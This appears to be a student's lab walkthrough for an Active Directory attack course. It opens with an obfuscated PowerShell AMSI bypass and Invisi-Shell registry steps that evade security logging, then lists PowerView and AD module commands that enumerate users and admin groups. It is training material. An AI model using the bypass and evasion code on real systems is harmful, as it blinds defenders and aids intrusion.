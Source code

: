 ### SUMMARY 


### AMSI bypass
```
S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + 
('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GetvarI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( 
"{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f 
'.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 
'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( 
( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 
'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}"
-f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

### Start a PowerShell session using Invisi-Shell to avoid enhanced logging
```
C:\AD\Tools>C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
```
```
C:\AD\Tools>set COR_ENABLE_PROFILING=1
C:\AD\Tools>set COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}
C:\AD\Tools>REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-
b283c03916db}" /f
The operation completed successfully.
C:\AD\Tools>REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-
b283c03916db}\InprocServer32" /f
The operation completed successfully.
C:\AD\Tools>REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-
b283c03916db}\InprocServer32" /ve /t REG_SZ /d 
"C:\AD\Tools\InviShell\InShellProf.dll" /f
The operation completed successfully.
C:\AD\Tools>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
```

### Load PowerView
```
. C:\AD\Tools\PowerView.ps1
```

### Learning Objective 1
**Task**
#### Enumerate following for the dollarcorp domain:
* Users
* Computers
* Domain Administrators
* Enterprise Administrators
* Use BloodHound to identify the shortest path to Domain Admins in the dollarcorp domain.
* Find a file share where studentx has Write permissions.

### PowerView
**List informations about all users** 
```
Get-DomainUser
```

**List a specific property of all the users**
```
Get-DomainUser | select -ExpandProperty samaccountname
```

**Enumerate member computers**
```
Get-DomainComputer | select -ExpandProperty dnshostname
```

**See details of the Domain Admins group**
```
Get-DomainGroup -Identity "Domain Admins"
```

**Enumerate members of the Domain Admins group**
```
Get-DomainGroupMember -Identity "Domain Admins"
```

**Enumerate members of the Enterprise Admins group**
```
Get-DomainGroupMember -Identity "Enterprise Admins"
```

**Query the root domain as Enterprise Admins group is present only in the root of a forest**
```
Get-DomainGroupMember -Identity "Enterprise Admins" -Domain moneycorp.local
```
### ADModule

**Import ADModule**
```
Import-Module C:\AD\Tools\ADModulemaster\Microsoft.ActiveDirectory.Management.dll
Import-Module C:\AD\Tools\ADModulemaster\ActiveDirectory\ActiveDirectory.psd1
```

**Enumerate All users***
```
Get-ADUser -Filter *
```

**List specific properties**
```
Get-ADUser -Filter * -Properties *| select Samaccountname,Description
```


